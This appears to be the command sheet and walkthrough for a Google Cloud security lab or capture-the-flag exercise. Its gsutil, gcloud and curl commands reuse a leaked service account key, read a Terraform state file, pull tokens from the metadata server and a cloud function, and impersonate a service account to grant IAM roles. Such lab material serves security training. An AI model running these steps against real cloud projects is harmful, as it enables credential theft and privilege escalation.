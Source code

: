 # Commands

<details>
  <summary>***** Module 1 *****</summary>

## Module 1

list dev bucket contents
#####
    gsutil ls gs://modeldata-dev-$PROJECT_ID/

download service account key
#####
    gsutil cp gs://modeldata-dev-$PROJECT_ID/bucket-service-account.json .

activate service account
#####
    gcloud auth activate-service-account --key-file=bucket-service-account.json

discover prod bucket
#####
    gsutil ls gs://modeldata-prod-$PROJECT_ID/

find flag
#####
    gsutil cat gs://modeldata-prod-$PROJECT_ID/secret_benchmarks/flag1_gpt5_benchmarks.txt

  <details>
    <summary>Walkthrough Module 1</summary>
    
  1. List contents of the dev bucket provided
  2. Notice the service account JSON file
  3. Download and activate the service account
  4. Test predictable bucket naming (dev → prod)
  5. Access prod bucket and find the flag

  </details>

</details>

#

<details>
  <summary>***** Module 2 *****</summary>

## Module 2

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/infrastructure_config.tfstate

  <details>
    <summary>Walkthrough Module 2</summary>
    
  ssh into vm
  #####
    ssh -i <private key file> alice@<compute instance IP> 

  </details>

</details>

#

<details>
  <summary>***** Module 3 *****</summary>

## Module 3

show VM service account
#####
    gcloud auth list

background: metadata server
#####
    curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"

demonstrate limited access scopes
#####
    gcloud compute instances list

show access scopes from tokeninfo endpoint
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

list storage buckets from VM
#####
    gsutil ls

  <details>
    <summary>Walkthrough Module 3</summary>

  list function source code bucket
  #####
      gsutil ls gs://cloud-function-bucket-module3

  read source code
  #####
      gsutil cat gs://cloud-function-bucket-module3/main.py

  execute function invocation script
  #####
      ./invoke_monitoring_function.sh

  extract command to get function token
  #####
    # Get the Gen2 function URL (Cloud Run service)
    FUNCTION_URL=$(gcloud run services describe monitoring-function --region=$LOCATION --format='value(status.url)')
    # Or use the hard-coded URL from invoke_monitoring_function.sh
    curl -s -X POST $FUNCTION_URL -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

  save the new token in env var and check access scopes
  #####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$TOKEN
    
  </details>

</details>

#

<details>
  <summary>***** Challenge 5 *****</summary>

## Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

  <details>
    <summary>Walkthrough Challenge 5</summary>
  
  impersonate and set binding
  #####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>
  
  </details>

</details>
